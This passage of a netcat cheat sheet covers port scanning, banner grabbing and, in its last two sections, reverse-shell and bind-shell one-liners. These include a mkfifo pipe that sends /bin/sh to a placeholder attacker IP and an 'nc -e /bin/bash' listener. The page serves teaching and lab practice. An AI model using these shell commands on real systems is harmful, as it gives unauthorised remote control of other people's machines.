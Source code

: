 Note: UDP is connectionless — ordering and delivery are not guaranteed.

---

## � Port scanning (quick)
Scan ports 20–1024:
```bash
nc -zv 192.168.1.1 20-1024
```
`-z` = zero I/O (no data); `-v` = verbose (shows open/closed).  
For more advanced scanning use `nmap`.

---

## � Banner grabbing / service detection
Grab an SMTP banner:
```bash
nc -nv mail.example.com 25
```
Grab HTTP headers:
```bash
echo -e "HEAD / HTTP/1.0\r\n\r\n" | nc -nv example.com 80
```

---


## � Reverse shell (for lab/testing only)
**Attacker (listener):**
```bash
nc -l -p 4444
```
**Target (connect back):**
```bash
nc <attacker_ip> 4444 -e /bin/bash
```
> Many `nc` builds (e.g., OpenBSD) disable `-e`. Alternative using FIFO:
```bash
mkfifo /tmp/f; nc <attacker_ip> 4444 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```

---


## � Bind shell (listen on target)
**On target:**
```bash
nc -l -p 4444 -e /bin/bash
```
**On attacker:**
```bash
nc <target_ip> 4444
```
> Bind shells expose a listening service on the target — can be blocked by firewalls.

---